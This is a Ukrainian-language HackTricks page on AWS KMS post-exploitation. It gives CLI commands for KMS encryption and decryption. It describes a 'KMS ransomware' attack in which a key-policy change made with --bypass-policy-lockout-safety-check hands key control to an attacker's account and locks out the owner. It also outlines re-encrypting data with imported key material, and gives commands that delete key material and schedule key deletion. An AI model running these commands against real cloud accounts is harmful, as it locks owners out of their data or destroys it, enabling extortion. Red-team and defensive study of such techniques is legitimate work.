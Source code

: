 # AWS - KMS Постексплуатація

{% hint style="success" %}
Вивчайте та практикуйте AWS Хакінг:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Хакінг: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## KMS

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Шифрування/Дешифрування інформації

{% hint style="success" %}
Зверніть увагу, що якщо ви хочете дешифрувати деякі дані всередині файлу, файл повинен містити бінарні дані, а не дані, закодовані в base64.
{% endhint %}

* Використовуючи **симетричний** ключ
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Використання **асиметричного** ключа:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Атакуючий з привілейованим доступом до KMS може змінити політику KMS ключів і **надати своєму обліковому запису доступ до них**, видаливши доступ, наданий легітимному обліковому запису.

Тоді користувачі легітимного облікового запису не зможуть отримати доступ до будь-якої інформації будь-якої служби, яка була зашифрована цими ключами, створюючи простий, але ефективний програмний викуп для облікового запису.

{% hint style="warning" %}
Зверніть увагу, що **управляючі ключі AWS не підлягають** цій атаці, лише **управляючі ключі клієнта**.

Також зверніть увагу на необхідність використання параметра **`--bypass-policy-lockout-safety-check`** (відсутність цієї опції в веб-консолі робить цю атаку можливою лише з CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Зверніть увагу, що якщо ви зміните цю політику і надасте доступ лише зовнішньому обліковому запису, а потім з цього зовнішнього облікового запису спробуєте встановити нову політику, щоб **повернути доступ до оригінального облікового запису, ви не зможете**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Загальний KMS Ransomware

#### Глобальний KMS Ransomware

Існує інший спосіб виконати глобальний KMS Ransomware, який включатиме наступні кроки:

* Створити новий **ключ з матеріалом ключа**, імпортованим зловмисником
* **Зашифрувати старі дані** знову, зашифровані попередньою версією, новою.
* **Видалити KMS ключ**
* Тепер лише зловмисник, який має оригінальний матеріал ключа, зможе розшифрувати зашифровані дані

### Знищити ключі
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Зверніть увагу, що AWS тепер **запобігає виконанню попередніх дій з крос-акаунтів:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
